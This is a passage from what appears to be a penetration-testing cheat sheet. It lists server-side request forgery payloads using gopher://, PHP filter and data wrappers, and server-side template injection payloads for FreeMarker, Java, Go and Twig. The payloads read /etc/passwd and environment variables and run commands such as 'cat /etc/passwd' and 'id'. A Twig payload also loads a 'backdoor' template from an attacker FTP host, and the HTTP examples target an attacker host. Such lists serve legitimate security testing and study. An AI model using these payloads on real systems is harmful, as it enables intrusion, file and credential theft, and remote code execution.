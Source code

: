 	gopher://<host>:25/%0AHELO ... (executing commands on internal SMTP Service)

Making internal HTTP Requests(GET,POST..etc):

	gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
	
	gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body

PHP: if PHP is installed we can use PHP Wrappers to read PHP source codes as Base64 content.
	
	php://filter/convert.base64-encode/resource=index.php

Data:
	
	data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk
	
--------------------------------------------------------------------------------------------------------------
# Server Side Template Injection (SSTI)

## SSTI CheatSheet
### `Polyglot`
```python
${{<%[%'"}}%\
```

### `FreeMarker (Java)`
```java
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
### `Java`
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.html").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
### `Golang`
```go
{{ . }}
{{.Email}}
{{.Password}}
{{ .system "id" }}
```
### `Twig (PHP)`
```php
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
